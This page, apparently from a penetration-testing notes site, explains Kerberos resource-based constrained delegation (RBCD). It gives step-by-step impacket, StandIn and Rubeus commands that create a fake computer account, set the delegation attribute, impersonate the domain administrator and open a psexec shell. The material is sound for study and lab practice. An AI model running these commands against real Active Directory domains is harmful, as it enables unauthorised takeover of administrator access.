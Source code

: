 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Resource-Based

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=vlKwCTvp5\_w) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).
{% endhint %}

## Theory

The trust is configured on the servive that receives delegated credentials (`msDS-AllowsToActOnBehalfOfOtherIdentity`), in this case, `sql01` instead of `web01` (Figure 1). We configure `sql01` to trust `web01` which means that the latter will be able to access the former on behalf of anyone; `web01` has `GenericAll` over `sql01`.

<figure><img src="../../../../../.gitbook/assets/delegations_rbcd_vs_rcd.png" alt="" width="563"><figcaption><p>Figure 1: The main difference between CD and RBCD (<em>image taken from</em> <a href="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html"><em>here</em></a><em>)</em>.</p></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/rbcd_wireshark.png" alt=""><figcaption><p>Figure 2: The RBCD process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

## Exploitation

### Prerequisites

1. A domain account with `WRITE` access to the target SPN account for setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to it.
2. Permission to create a SPN account (`MachineAccountQuota`).

### Attack

1. Create a fake computer.
2. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.
3. Request impersonated Service Tickets (`S4U`) for the target computer.

#### Linux

{% code overflow="wrap" %}
```bash
# add a machine account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'
# set rbcd attribute
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
# generate ST for the admin account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'
```
{% endcode %}

For an example of the above process check [Support](../../../../../boxes/boxes/easy/support.md#rbcd).

#### Windows

```powershell
# create a computer account
.\StandIn.exe --computer <name> --make
# get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID
# set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

We need the value of the password md4-encrypted for Rubeus.

```bash
python3
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "<pass>".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
```

{% code overflow="wrap" %}
```powershell
# generate the ST
.\Rubeus.exe s4u /user:<name> /rc4:<value> /impersonateuser:administrator /msdsspn:cifs/<fqdn> /nowrap /ptt
```
{% endcode %}

Although the ticket is generated, it does not work locally. Copy paste the b64 encoded block locally, decode it, convert it, and then use it.

```bash
# paste the ticket
nano ticket.b64
# decode it
cat ticket.b64 | base64 -d > ticket.kirbi
# convert it from kirbit to ccache for Linux usage
impacket-ticketConverter ticket.kirbi ticket.ccache
# export the ticket
export KRB5CCNAME=<ticket-path>
# use the ticket
impacket-psexec -k -no-pass <domain>/administrator@<fqdn> -dc-ip <ip>
```

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://youtu.be/xMTCZt5DRB0?t=504" %}
{% endtab %}

{% tab title="Deep Dive" %}
{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}
{% endtab %}

{% tab title="Video-Presentation" %}
{% embed url="https://www.youtube.com/watch?v=vlKwCTvp5_w" %}
{% endtab %}
{% endtabs %}

